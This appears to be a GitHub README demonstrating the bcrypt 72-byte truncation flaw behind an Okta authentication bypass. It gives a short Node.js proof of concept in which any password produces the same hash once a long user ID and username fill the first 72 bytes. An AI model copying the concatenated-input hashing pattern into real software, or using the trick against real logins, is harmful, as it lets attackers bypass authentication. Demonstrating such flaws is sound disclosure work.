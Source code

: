 This repository demonstrates the bcrypt authentication bypass vulnerability disclosed by Okta on October 30, 2024.

Read the full blog post [here](https://kondukto.io/blog/okta-vulnerability-bcrypt-auth) for details.

When the first 72 bytes of two different inputs are identical, they produce the same hash.

This usage may cause an authentication bypass in the certain cases. 
```
bcrypt(userId + username + password)
```
This is how it may have been used in the production:
```
var userid = "b91fa9b4-69f1-4779-8d45-73f8653057f3"; 

// very long username
var username = "my.very.long.username.with.more.characters@kondukto.io" // 54 bytes long

// valid random password 
var password = "randomStrongPassword"
var validInput = userid + username + password;

// simulate bypass input -- can be anything
var password2 = "AAAAAAAAAAAAAAAAAAA"
var bypassInput = userid + username + password2;

bcrypt.genSalt(saltRounds, function(err, salt) {
	bcrypt.hash(validInput, salt, function(err, hash) {
		console.log(hash);
	});

	bcrypt.hash(bypassInput, salt, function(err, hash) {
		console.log(hash);
	});
});
```

If the `userId` and `username` fields are long enough, the password field will not impact the generated hash.

```
└> node main.js
$2b$10$8rlEx5z6l3aed0ueZKa4pupDgjn1CWKVwU5NrQ9EC.DtUl/R0AI0m
$2b$10$8rlEx5z6l3aed0ueZKa4pupDgjn1CWKVwU5NrQ9EC.DtUl/R0AI0m
```

### To install
```
npm install bcrypt
```

### Run
```
node main.js
```
